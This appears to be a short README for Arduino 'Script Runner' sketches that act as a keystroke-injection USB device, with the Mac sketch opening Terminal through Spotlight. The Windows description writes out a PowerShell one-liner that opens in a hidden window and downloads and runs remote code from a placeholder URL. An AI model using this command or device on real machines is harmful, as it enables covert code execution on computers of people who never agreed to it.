 # Script Runner
<br>

**script_runner_win.ino:** Once plugged in, it hits win+r which opens the run menu. Then it types out `powershell -w h iex (irm "[url]")`. Here, `-w h` makes it so the process is ran in a hidden window, `irm "[url]"` sends a request to the url and gets the raw text which is executed by `iex`

<br>

**script_runner_mac.ino:** Once plugged in, it hits cmd+space which opens spotlight. Then it types `Terminal.app` and hits enter to open up the terminal application. 
